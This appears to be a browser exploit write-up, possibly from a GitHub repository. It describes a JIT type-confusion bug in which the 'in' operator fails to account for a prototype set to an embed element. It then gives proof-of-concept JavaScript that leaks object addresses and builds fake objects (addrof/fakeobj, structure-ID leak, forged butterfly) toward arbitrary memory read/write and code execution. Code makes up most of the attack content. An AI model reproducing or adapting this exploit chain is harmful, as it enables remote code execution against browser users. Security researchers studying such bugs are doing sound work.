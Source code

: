 ```txt
```

Since any objects in the prototype chain is not marked with
"MayHaveIndexedAccessors", JIT assumes that this use of 'in' operator doesn't
have any transitions inside eliminating the array type checks after transition.

```javascript
// In the frame of <iframe src="...pdf"></iframe>

function opt(arr) {
	arr[0] = 1.1;
	100 in arr; // 100 not exists in arr, making it check __proto__
	return arr[0]
}

for(var i = 0; i < 10000; i++) opt([1.1])
arr.__proto__ = document.querySelector('embed')

document.body.addEventListener('DOMSubtreeModified', () => {
	arr[0] = {}
})

document.body.removeChild(embed)
opt([1.1]) // leaks address of {} as double value
```

By constructing addrof / fakeobj primitive from this, we could make arbitrary
RW primitive to get code execution with the JIT-compiled JavaScript function.


- Exploitation

After getting addrof / fakeobj primitives, we convert it to more stable
addrof / fakeobj primitives by faking an object.

```javascript
hostObj = {
                                                              // hostObj.structureId
                                                              // hostObj.butterfly
    _: 1.1,                                                   // dummy
    length: (new Int64('0x4141414141414141')).asDouble(),
                                                              // -> fakeHostObj = fakeObj(addressOf(hostObj) + 0x20);
    id: (new Int64('0x0108221700000000')).asJSValue(),        // fakeHostObj.structureId
    butterfly: attackObj,                                     // fakeHostObj.butterfly
    o: {}
}
```

We leak the structure id of the attackObj by faking an object attackObj as
butterfly. We update the hostObj after leaking the structure id.

```javascript
hostObj = {
                                                            // hostObj.structureId
                                                            // hostObj.butterfly
    _: 1.1,                                                 // dummy
    length: (new Int64('0x4141414141414141')).asDouble(),
                                                            // -> fakeHostObj = fakeObj(addressOf(hostObj) + 0x20)
    id: leakStructureId.asDouble(),                         // fakeHostObj.structureId
    butterfly: fakeHostObj,                                 // fakeHostObj.butterfly
    o: {}
}
```
